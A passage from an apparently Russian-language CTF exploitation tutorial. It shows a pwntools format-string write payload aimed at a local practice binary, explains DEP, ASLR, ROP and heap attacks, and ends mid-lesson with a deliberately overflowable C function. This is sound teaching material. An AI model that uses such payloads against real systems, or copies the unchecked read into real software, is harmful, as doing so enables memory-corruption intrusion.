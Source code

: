 #### Пример payload (Python с pwntools):  
```python
from pwn import *

p = process('./format_vuln')
payload = p32(0x0804a01c) + b"%4$n"  # Адрес переменной + запись в 4-й аргумент
p.sendline(payload)
p.interactive()
```

Этот payload перезапишет значение по адресу `0x0804a01c`, что может дать доступ к флагу.  

---

### Введение в продвинутые техники PWN

В современных операционных системах используются различные механизмы защиты, такие как DEP (Data Execution Prevention), ASLR (Address Space Layout Randomization) и Canary, которые усложняют эксплуатацию уязвимостей. Для обхода этих защит разработаны продвинутые техники эксплуатации:

- **ROP (Return-Oriented Programming)**: Техника, позволяющая выполнять произвольный код, используя фрагменты кода (гаджеты) из существующего бинарника, что помогает обойти DEP.
- **Эксплуатация уязвимостей кучи**: Включает такие атаки, как use-after-free, double-free и переполнение буфера в куче, что позволяет манипулировать структурами данных в памяти.

Для успешной эксплуатации вам потребуется:

- Глубокое понимание работы стека и кучи.
- Умение находить и использовать гаджеты для ROP.
- Знание механизмов защиты и способов их обхода.
- Опыт работы с инструментами анализа и отладки.

---

### Пример 3: ROP для обхода DEP

Рассмотрим программу с переполнением буфера, но с включенным DEP, что запрещает выполнение кода из стека.

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
    char buffer[100];
    read(0, buffer, 200);  // Переполнение буфера
}

int main() {
    vulnerable_function();
    return 0;
}
```

#### Что здесь не так?
